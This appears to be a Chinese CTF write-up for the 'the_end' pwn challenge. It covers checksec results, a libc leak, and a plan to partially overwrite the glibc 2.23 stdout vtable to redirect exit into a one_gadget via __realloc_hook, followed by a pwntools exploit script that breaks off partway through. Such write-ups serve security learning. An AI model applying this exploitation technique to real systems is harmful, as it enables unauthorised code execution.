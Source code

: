 # analysis
[official wp][1]
[binary][2]
没有canary
```sh
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
* 泄漏libc地址
* 修改任意5字节

# 思路
* 输入完直接exit所以应该时对exit动手
* glibc-2.23没有_IO_vtable_check
* 可以尝试对IO_FILE.vatable partialwrite


做的过程中发现:
```
_IO_1_2_stdou_虚表直接指向某个有libc内地址的位置-0x58
不满足所有one_gadget
```
但是可以指向某些没有`call`过的`func`的`got-0x58`这样就会先调用`dl_resolver`....
如果还不行那就某些还存在原始值的`hook`....总有一款适合你..

* 据说2.23的话用 第三个`one_gadget`改写`__realloc_hook`
触发`realloc`会成功 .

拿到shell后反弹个shell回来就可以了
官方说stdin也可以输出但是我没成功 ....
# exp
```python

from pwn import *
context.log_level='debug'
libc=ELF("./the_end").libc
p=process("./the_end")
#p=process('./the_end',env={"LD_PRELOAD":"/glibc/x64/2.23/lib/libc-2.23.so"})
#p=remote("0.0.0.0",8888)
#gdb.attach(p,'')
p.readuntil("gift ")
base=int(p.readuntil(',')[:-1],16)-libc.sym['sleep']
log.info(hex(base))
libc.address=base

address=libc.sym['_IO_2_1_stdout_']+0xd8
q=libc.got['realloc']-0x58
aim=libc.sym['__realloc_hook']

one=base+0xf02a4
q1=chr(q&0xff)
q2=chr((q>>8)&0xff)

p1=chr(one&0xff)
p2=chr((one&0xff00)>>8)
p3=chr((one&0xff0000)>>16)
p.send(p64(address))
p.send(q1)
p.send(p64(address+1))
```